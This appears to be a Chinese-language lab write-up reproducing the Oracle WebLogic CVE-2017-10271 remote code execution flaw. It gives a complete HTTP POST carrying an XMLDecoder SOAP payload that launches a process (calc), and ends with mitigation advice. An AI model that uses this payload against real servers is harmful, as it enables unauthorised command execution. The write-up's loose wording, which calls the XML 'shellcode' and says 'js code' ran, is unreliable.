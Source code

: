 # Weblogic(CVE-2017-10271)漏洞复现

> Oracle Fusion Middleware（Oracle融合中间件）是美国甲骨文（Oracle）公司的一套面向企业和云环境的业务创新平台。该平台提供了中间件、软件集合等功能。Oracle WebLogic Server是其中的一个适用于云环境和传统环境的应用服务器组件。
>
> Oracle WebLogic Server组件的WLS Security子组件存在安全漏洞。使用精心构造的xml数据可能造成任意代码执行，攻击者只需要发送精心构造的 HTTP 请求，就可以拿到目标服务器的权限，可以进行远程命令执行的攻击。

## 影响范围

- Oracle WebLogic Server 10.3.6.0.0版本
- Oracle WebLogic Server 12.1.3.0.0版本
- Oracle WebLogic Server 12.2.1.1.0版本

## 参考链接

- weblogic安装环境以及配置：https://blog.csdn.net/acmman/article/details/70093877
- 漏洞复现参考：https://www.jianshu.com/p/75c92754b34c

## 配置完成

- 配置完成会看到以下7001端口开放以及running的字段字样

![1556458864011](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1556458864011.png)

- 查看weblogic server的前端页面

![1556458830499](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1556458830499.png)



## 漏洞复现

- 找到存在漏洞的页面（192.168.189.1:7001/wls-wsat/CoordinatorPortType11）

![1556459270195](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1556459270195.png)

- 打开burpsuits然后刷新页面截取请求。

![1557198387511](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1557198387511.png)

- 将请求内容篡改，然后提交。就会看到浏览器执行了js代码，弹出了计算器。

![1556459795009](C:\Users\varas\AppData\Roaming\Typora\typora-user-images\1556459795009.png)



## 请求的主要内容

- 主要更改的部分是将GET请求更改为POST请求，然后将Upgrade-Insecure-Requests字段改为1，Content-type字段设置为text/xml，在后边加上shellcode的代码。

```
POST /wls-wsat/CoordinatorPortType11 HTTP/1.1
Host: 192.168.189.1:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: ADMINCONSOLESESSION=ngtkLFCAykF1SWUVN9KHhdnDoBS-sX6kGc6SjEaB-fQaV6C83nu3!-1160453256
Connection: close
Content-type: text/xml
Content-Length: 482

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header> 
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.6.0" class="java.beans.XMLDecoder">
				<object class="java.lang.ProcessBuilder">  
					<array class="java.lang.String" length="1">  
						<void index="0"> 
							<string>calc</string>  
						</void> 
					</array>
					<void method="start"/>  
				</object> 
			</java>
		</work:WorkContext> 
	</soapenv:Header> 
	<soapenv:Body/> 
</soapenv:Envelope>
```



## 漏洞修复建议

- 删除war包。根据实际环境路径和业务需求，删除WebLogic程序下列war包及目录。代码示例如下。

```
rm -f /home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf /home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```

- 设置网络访问控制。配置 `http://ip_address:7001/wls-wsat` 的网络访问控制策略，禁止外网直接访问。
- 更新补丁。更新Oracle官方发布的相关补丁，下载链接为：http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
- 参考链接：https://helpcdn.aliyun.com/knowledge_detail/64233.html